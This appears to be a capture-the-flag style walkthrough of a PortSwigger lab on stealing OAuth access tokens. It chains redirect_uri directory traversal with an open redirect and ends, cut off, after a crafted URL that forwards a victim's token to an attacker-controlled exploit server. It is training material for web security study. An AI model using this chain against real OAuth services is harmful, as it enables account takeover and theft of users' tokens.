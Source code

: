 ## Stealing OAuth access tokens via an open redirect
Reference: https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect


### Quick Solution
As with one of the previous labs we have to mess around with the ``redirect_uri`` parameter. In this case the OAuth service has some kind of protection against ``redirect_uri`` tampering. Anyway the client application has two vulnerabilities that can be leveraged to circumevent this protection:
- Directory traversal (using ``/../``)
- Open redirection (in every post page)


### Solution
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at ``/me`` and then uses the data it fetches to log the user in. Send the ``GET /me`` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent`` GET /auth?client_id=[...]`` request and send it to Repeater.
4. In Repeater, experiment with the ``GET /auth?client_id=[...]`` request. Observe that you cannot supply an external domain as ``redirect_uri`` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the ``/../`` directory traversal sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In your browser, log in again and go to the intercepted ``GET /auth?client_id=[...]`` request in Burp Proxy.
7. Confirm that the ``redirect_uri`` parameter is in fact vulnerable to directory traversal by changing it to:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
```
Forward any remaining requests and observe that you are eventually redirected to the first blog post. In your browser, notice that your access token is included in the URL as a fragment.
8. With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding ``GET /post/next?path=[...]`` request to Repeater.
9. In Repeater, experiment with the ``path`` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the ``redirect_uri`` pointing to the open redirect, which subsequently forwards the victim to your exploit server:
```
https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```
EXAMPLE:
